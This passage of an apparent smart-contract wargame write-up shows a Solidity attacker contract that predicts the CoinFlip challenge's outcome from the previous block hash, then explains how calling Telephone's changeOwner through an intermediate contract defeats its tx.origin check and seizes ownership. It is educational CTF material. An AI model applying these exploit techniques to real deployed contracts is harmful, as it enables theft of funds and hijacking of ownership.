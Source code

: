 ```solidity
        coinFlip = CoinFlip(coinFlipInstance);
    }

    function flipAndSubmit() public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        require(lastHash != blockValue);
        
        lastHash = blockValue;
        uint256 toss  = blockValue / FACTOR;
        bool side = toss == 1 ? true : false;
   
        require(coinFlip.flip(side));
    }
}
```

"flipAndSubmit" should be called in 10 different transactions one after other as every flip method call should be in a different block.

---

# <a name="telephone"></a> 4. Telephone
\[[top](#top)\]

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

We have to become the owner of the challenge contract. Anyone can call the changeOwner with a new owner address but to change the owner to passed "_owner" argument, a condition must be true which is

```solidity
    if (tx.origin != msg.sender)
```

"tx.origin" is equal to the address created the transaction and "msg.sender" is equal to the address which created the message. Calling another contract is also a message call. so, when we call a different smart contract which inturn calls the challenge contract, the "tx.origin" will be our address whereas the "msg.sender" will be the address of intermediate smart contract.
